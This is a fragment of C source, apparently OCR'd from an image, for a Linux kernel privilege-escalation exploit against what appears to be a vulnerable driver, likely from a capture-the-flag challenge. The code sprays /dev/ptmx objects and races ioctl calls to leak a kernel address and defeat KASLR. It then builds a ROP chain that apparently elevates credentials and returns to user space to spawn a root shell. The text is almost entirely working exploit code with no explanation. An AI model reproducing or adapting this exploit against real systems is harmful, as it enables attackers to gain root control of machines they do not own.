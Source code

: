 ```c=
	memset(addr2,0,0x1000);
	buf[0] = 1;
	buf[1] = (size_t)addr2;
	buf[2] = 0x400;
	ioctl(fd,111,buf);
	for(int i=0;i<0x1000;i++)
		pfd[i] = open("/dev/ptmx/",O_RDWR);
	buf[0x21] = 0;
	buf[0] = 4;
	buf[1] = (size_t)addr2;
	buf[2] = 0x300;
	buf[3] = (size_t)fault;
	buf[4] = 0x80;
	buf[5] = (size_t)addr;
	buf[6] = 0x80;
	buf[7] = (size_t)addr2;
	buf[8] = 0x300;	
	pthread_t tid;
	pthread_create(&tid,NULL,job,NULL);
	ioctl(fd,222,buf);
	pthread_join(tid,NULL);
	size_t *p = (size_t*)addr2;
	kcode = p[7];
	buf[0] = 0;
	if( kcode < 0xff00000000000000 ){
		puts("Leak Failed");	
		ioctl(fd,444,buf);
		exit(-1);
	}
    kcode -= 0x17b08c0;
    printf("%p\n",(void*)kcode);
    ioctl(fd,444,buf);
	kcode -= 0xffffffff81000000;
        size_t *rop = (size_t*)&addr2[0x10];
	int i=0;


	rop[i++] = kcode + 0xffffffff81086800; // : pop rdi ; ret;
	rop[i++] = 0;
	rop[i++] = kcode + 0xffffffff810b9db0;
	rop[i++] = kcode + 0xffffffff8151224c; //: push rax ; pop rdi ; add byte ptr [rax], al ; pop rbp ; ret
	rop[i++] = 0;
	rop[i++] = kcode + 0xffffffff810b9a00;
       

        rop[i++] = kcode + 0xffffffff81070894; // swapgs ; pop rbp ; ret
        rop[i++] = 0;
        rop[i++] = kcode+0xffffffff81036bfb; // iretq
        rop[i++] = (size_t)get_shell;
        rop[i++] = user_cs;                /* saved CS */
        rop[i++] = user_rflags;            /* saved EFLAGS */
        rop[i++] = user_sp;
        rop[i++] = user_ss;

	rop[i++] = kcode + 0xffffffff8100021e;
	buf[0] = 1;
	buf[1] = (size_t)addr2;
	buf[2] = 0x400;
	ioctl(fd,111,buf);
	buf[0x21] = 0;
	*(size_t*)0 = kcode+0xffffffff81488731;
	buf[0x21] = 0;
```